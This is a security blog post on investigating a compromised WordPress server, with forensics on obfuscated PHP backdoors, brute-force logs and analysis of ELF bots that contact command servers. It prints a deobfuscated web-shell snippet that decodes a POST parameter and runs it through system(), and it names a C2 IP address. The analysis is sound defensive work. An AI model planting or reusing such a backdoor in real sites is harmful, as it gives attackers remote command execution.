


import SOCcareLogo from './assets/soccare.png';

Once again, we found ourselves investigating a compromised WordPress server.
In this blog post, you'll see how we investigated the attack and what useful information we have uncovered.


This time, the attack was discovered after a manual inspection on the hosting facility, where we observed several connections initiated by the hosting server to external IPs.
This is not something we expected to see, so we did some further inspection.
First, we extracted the executable files that started the processes and we upload their hashes on [Virustotal](https://www.virustotal.com/).
Most of them are flagged as malicious, and we could see some connected IP addresses, but nothing more (a report for one of the files is [here](https://www.virustotal.com/gui/file/746760c950fa9bf7ee6a25e45c246b0e676c298d2047d5cabd3b9dbf30019d24/detection)).

<!-- truncate -->

All reports looked almost identical, and we will soon show you why.
Manually inspecting the files showed us a few more details:

* Birth dates are around July 4, 2025 (could be the start of the attack)
* Modify dates are November 9, 2021 (so they were dropped on the server)

Using this information, we extracted more files with the same properties.
All the files had similar sizes, identical birth and modify dates, and were flagged as malicious on Virustotal.
All the files were placed at paths like `wp-content/plugins/foogallery/`, `wp-content/themes/hey-wpcom/`, `wp-content/themes/lineup-wpcom/`, etc.

## PHP Obfuscated Files

Furthermore, we also found some obfuscated PHP files that we inspected using some [PHP deobfuscator](https://github.com/simon816/PHPDeobfuscator).



```php
if (isset($_POST["hld"])) {
    function __($_8, $_9)
    {
        $_10 = "";
        $_11 = (int) ROuNd(0);
        do {
            $_10 .= CHr(OrD($_8[$_11]) ^ $_9);
            $_11++;
        } while ($_11 < StrlEn($_8));
        return $_10;
    }
    $_12 = hex2bin($_POST["hld"]);
    $_12 = __($_12, 74);
    if (FuNctiON_ExisTs($_5)) {
        system($_12);
```

We found 10 malicious PHP files.
Just like the binary files, some of them were very similar.
In the end, there were 3 types of obfuscated PHP files:

* Remote Code Execution (RCE) done by decoding a request parameter, header or cookie and then placing the decoded string into a `tmp/` file and using `include(/tmp/decoded-string)`.
* RCE using the same string decoding, but this time with functions like `system`, so the payload was some bash command, not PHP (like the example presented above).
* One file manager, that exposed an API for interacting with files on the server, dropping / reading files and listing directories.

This is likely how the malicious binaries got on the server.

Next, we inspected the OpenSearch logs for the attack start period of time (sometime around July 4, according to the files birth date).
We discovered that, in the couple of days before the attack started, many connection attempts to the website login page were done.
Checking the IPs, we saw that many of them are flagged on Virustotal, and they come from all over the world.
At this point, we can assume this is a botnet trying to bruteforce it's way into the admin account.
It's likely using some leaked password database (we will confirm this later).
The spike of attempted connections ended few hours before the attack started, so we can assume it was successful.
After the successful login, the attacker can install plugins (like `wp-file-manager`) and drop the malicious files.



We can also see in the OpenSearch logs the requests made to the malicious PHP files, but since the cookies and POST request parameters are not logged, we can not find the exact payloads that were used.

## Binary Analysis

Now that we went through the PHP malicious files, it's time to move on to the more interesting part, the executable files.
A quick inspection showed us that they are all statically linked executables, 8 of them are 32-bit ELF files, the other 9 are 64-bit.

```shell
$ find . -perm 0744 -mtime +600 
./themes/twentytwentyfour/templates/database.mysqli
./themes/twentynineteen/sass/media/gateways.inc
./themes/twentytwentyone/assets/sass/05-blocks/utilities/ConfigSchema
./themes/eduma/inc/libs/Tax-meta-class/dbx_convert
./themes/eduma/inc/widgets/one-course-instructors/action.changedir
./themes/eduma/assets/sass/courses/left_menu_var
./themes/eduma/assets/sass/mixins/mediasize
./themes/eduma/assets/sass/eduma-child-new-art/general/default_wdb
./themes/eduma/assets/sass/eduma-child-new-art/elements/cp_header
./themes/hey-wpcom/languages/mod_mainmenu
./plugins/elementor/core/schemes/addgroup
./plugins/elementor/core/settings/editor-preferences/editannouncegr
./plugins/elementor/core/app/modules/kit-library/data/kits/endpoints/am.trackback
./plugins/elementor/core/app/modules/kit-library/Portfolio
./plugins/elementor/assets/lib/waypoints/layersmenu.inc
[...]
```

Some of the executable files that we initially observed were missing, so likely they self-deleted after starting.
Others were identical (same hashes), so we stripped them down to 17 individual ELF files.

### Static Analysis

Since we didn't know anything substantial about what the executable files do, we started with static analysis.
We used [Ghidra](https://ghidralite.com/) for reverse engineering, but any other similar tool will do the job.
We started with one executable, `database.mysqli - 6f91e0ab8f243a10ec6d73448e58d833`.

It looked like the executable relies on manual system calls, no `libc` or other libraries are used.
We mapped all the system calls, starting from the entrypoint of the executable.

We saw that several `getrlimit/setrlimit` call are being made.
The executable sets the maximum allowed values for `RLIMIT_NOFILE`, `RLIMIT_AS`, `RLIMIT_DATA`, `RLIMIT_STACK`.

```asm
804a02b:       55                      push   ebp
804a02c:       8b ec                   mov    ebp,esp
804a02e:       81 ec 84 00 00 00       sub    esp,0x84
804a034:       89 5d fc                mov    DWORD PTR [ebp-0x4],ebx
804a037:       8d bd 7c ff ff ff       lea    edi,[ebp-0x84]
804a03d:       b9 80 00 00 00          mov    ecx,0x80
804a042:       32 c0                   xor    al,al
804a044:       f3 aa                   rep stos BYTE PTR es:[edi],al
804a046:       8b 5d fc                mov    ebx,DWORD PTR [ebp-0x4]
804a049:       8d 8d 7c ff ff ff       lea    ecx,[ebp-0x84]
804a04f:       b8 4c 00 00 00          mov    eax,0x4c
804a054:       cd 80                   int    0x80
804a056:       8d 75 80                lea    esi,[ebp-0x80]
804a059:       8d bd 7c ff ff ff       lea    edi,[ebp-0x84]
804a05f:       b9 04 00 00 00          mov    ecx,0x4
804a064:       f3 a4                   rep movs BYTE PTR es:[edi],BYTE PTR ds:[esi]
804a066:       8b 5d fc                mov    ebx,DWORD PTR [ebp-0x4]
804a069:       8d 8d 7c ff ff ff       lea    ecx,[ebp-0x84]
804a06f:       b8 4b 00 00 00          mov    eax,0x4b
804a074:       cd 80                   int    0x80
804a076:       c9                      leave
804a077:       c3                      ret
```

After that, it uses `sigaction` to ignore the `SIGHUP` signal.
Since `SIGHUP` is generated when the parent terminal is closed, the attacker likely does this in order to keep the process running after the parent (likely some RCE triggered by the malicious PHP files above) end it's execution.
Finally, it maps some RWX memory regions, and connects to `185.93.89.176:443`.
We checked the IP on [Virustotal](https://www.virustotal.com/gui/ip-address/185.93.89.176).
It's marked as malicious by some of the vendors.

All of this can be also seen by performing dynamic analysis, using `strace` on a VM with no internet access.

We started the same procedure on another executable, and we saw that it looks absolutely identical.
It connects to a different IP, but the `.text` section is the same.
We can confirm this by extracting hashes for the `.text` section of all executables and compare them.
As expected, all 32-bit executables have identical `.text` session, and the same goes for the 64-bit ones.

So, we can assume that all executables connect to some different IPs (likely command and control servers), and wait for instructions.
This means there is not much else we can do using static analysis, so we must push further into dynamic analysis.

### Dynamic Analysis

Since we are dealing with proven malicious files, we must treat them as such.
Given that we found all the executable files on Virustotal, and the static analysis did not reveal any sensitive information being embedded in the files, we assumed that the attack is not targeted, and the files do not contain any private information.
This means we could use public sandboxing solutions.

The first try is [AnyRun](https://app.any.run/), since it provides very detailed reports on the malware activity.
We upload the files and run them on an Ubuntu 22.04 machine.
As expected, the IPs did not work, and all we could find out for now is the initialized connection from the executable to a remote server, but with no response.

Since we had 17 executable files connecting to 17 different IP addresses, but using the same `.text` section, we assumed that the 17 IP addresses are responding at different times during the day, so we waited a few hours and ran the analysis again.

After many more tries, we noticed that, between 19:00 and 20:00 EEST, the IP for `class.mail` is up and running, so we have an hour to run the analysis.
Here is a [link to the AnyRun report](https://app.any.run/tasks/25041063-a9d4-4312-a213-b3487b9dac25).

We notice that, after many requests to different IPs, it started doing HTTP requests to exposed WordPress instances, on port 80, using usernames and passwords that look like part of a breach (i.e. `log=<...>&pwd=<...>`).
Some (very few) of the IP addresses were marked as known malicious, so likely someone already successfully infected them.

This tracks our initial assumption that our WordPress server was targeted by some bruteforce attack using leaked credentials.
This means the IPs that we saw at the beginning were likely other compromised servers.

Since that is all AnyRun could provide us (IOCs, Behaviour, Threats, Network activity), we could also run the executable on our VM and try to anything else different.
The AnyRun report is detailed enough, the only other thing we could hope to get our hands on were the self-deleting malware files, since the AnyRun reports are time limited to maximum 5 minutes.

We attached a network interface to our VM, use a firewall on the host machine to isolate the traffic form/to the VM, and ran the executable using gdb, and in parallel ran wireshark.

The wireshark output showed similar results to the AnyRun report, many HTTP-exposed WordPress instances being targeted, and nothing more.
Using gdb we noticed some new memory regions with rwx permissions, but nothing else noticeable happened during the one hour when the IP is up.
The missing files were not downloaded by this binary.

### SOCcare

The SOCcare project is co-funded by the European Union, alongside our collaborators,
NRD Cyber Security and RevelSI, and supported by the
European Cybersecurity Competence Centre (ECCC) Centre (ECCC) under Grant Agreement No. 101145843.
Views and opinions expressed are however those of the author(s) only and do not necessarily
reflect those of the European Union or the European Cybersecurity Competence Centre.
Neither the European Union nor the European Cybersecurity Competence Centre can be held responsible for them.


